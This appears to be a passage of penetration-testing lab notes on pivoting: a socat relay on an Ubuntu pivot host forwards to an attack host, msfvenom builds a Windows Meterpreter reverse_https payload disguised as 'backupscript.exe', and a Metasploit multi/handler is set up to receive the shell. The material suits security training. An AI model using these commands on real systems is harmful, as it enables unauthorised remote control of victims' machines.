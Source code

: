 
## **1. Basic Socat Redirection Setup**

### **Starting Socat Listener on Pivot**

```bash
# On Ubuntu pivot host (172.16.5.129)
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

# Command breakdown:
# TCP4-LISTEN:8080    - Listen on TCP port 8080
# fork                - Handle multiple connections
# TCP4:10.10.14.18:80 - Forward to attack host port 80
```

**Configuration Explanation:**
- **Listen Port:** 8080 (on pivot host)
- **Target:** 10.10.14.18:80 (attack host)
- **Fork:** Creates new process for each connection
- **Protocol:** TCP IPv4

---

## **2. Payload Creation and Handler Setup**

### **Creating Windows Payload**

```bash
# Create Windows HTTPS Meterpreter payload
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

# Expected Output:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

**Key Points:**
- **LHOST:** Points to pivot host internal IP (172.16.5.129)
- **LPORT:** Points to Socat listener port (8080)
- **Format:** Windows executable for target host

### **Configure Metasploit Handler**

```bash
# Start msfconsole
sudo msfconsole

# Configure multi/handler
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https

msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0

msf6 exploit(multi/handler) > set lport 80
lport => 80

msf6 exploit(multi/handler) > run
```